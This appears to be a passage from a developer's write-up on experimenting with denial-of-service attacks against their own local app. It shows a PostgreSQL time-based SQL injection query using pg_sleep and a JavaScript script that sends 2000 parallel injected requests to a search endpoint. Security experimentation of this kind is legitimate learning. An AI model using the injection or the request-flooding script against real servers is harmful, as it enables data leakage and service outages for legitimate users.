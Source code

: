 This lead me to experiment with denial-of-service attacks. These are attacks that specialize in slowing down or shutting down a server with a flood of resource intensive requests. When the server has to process all these resource intensive requests the server may hit its resource threshold and timeout. This means that the server stops taking requests and denies legitimate users from being able to use the service.

One such query I came across in my research was the one below that causes a 5 second delay depending on the first character of the database's name.

```SQL
SELECT CASE WHEN substring(datname,1,1)='1' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM pg_database LIMIT 1;
```

There were a number of other SQL injections I were able to find at this [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-stacked-query) that were specific to PostgreSQL. These queries made me interested to write a script that would cause a timeout such as this:

```javascript
async function sendRequests() {
  const url = "http://localhost3001/search?title=<INSERT SQL INJECTION HERE>";
  const requests = Array.from({ length: 2000 }, () =>
    fetch(url).then((response) => response.json())
  );

  try {
    // Run all requests in parallel and wait for them to complete
    const results = await Promise.all(requests);
    console.log(results);
  } catch (error) {
    console.error("Error with one of the requests:", error);
  }
}

sendRequests();
```

However I didn't have the resources to test this in an deployed server at scale.
